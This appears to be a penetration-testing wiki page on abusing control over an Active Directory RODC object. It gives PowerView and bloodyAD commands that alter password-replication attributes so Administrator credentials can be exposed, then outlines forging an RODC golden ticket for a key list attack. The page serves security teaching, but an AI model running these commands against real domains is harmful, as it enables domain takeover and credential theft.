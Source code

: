 With administrative control over the RODC computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.
!!! note
    For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:

    - `GenericWrite`
    - `GenericAll / FullControl`
    - `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
    - `Owns` (c.f. `WriteDacl`)
    - `WriteOwner` (i.e. the attacker can obtain Owns -> WriteDacl -> other permissions)
    - `WriteProperty` against the `msDS-RevealOnDemandGroupattribute` in conjunction with another primitive to gain privileged access to the host. WriteProperty against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.
=== "UNIX-like"
    From UNIX-like systems, this [PowerView python](https://github.com/aniqfakhrul/powerview.py) package (Python) can be used to modify the LDAP attribute.
    ```bash
    powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
    ```
    ```bash
    #First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
    #Then, append the Allowed RODC Password Replication Group group
    Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
    Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'

    #If needed, remove the admin from the msDS-NeverRevealGroup attribute
    Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
    ```
    Alternatively, it can be achieved using bloodyAD
    ```bash
    # Get original msDS-RevealOnDemandGroup values 
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object 'RODC-server$' --attr msDS-RevealOnDemandGroup
    distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
    msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local

    # Add the previous value plus the admin account
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'

    #If needed, remove the admin from the msDS-NeverRevealGroup attribute
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-NeverRevealGroup
    ```
=== "Windows"
    From Windows systems, PowerView (PowerShell) can be used for this purpose.
    ```bash
    #First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
    Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

    #If needed, remove the admin from the msDS-NeverRevealGroup attribute
    Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
    ```
Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a `RODC golden ticket` and conduct a key list attack to retrieve the domain Administrator's password hash.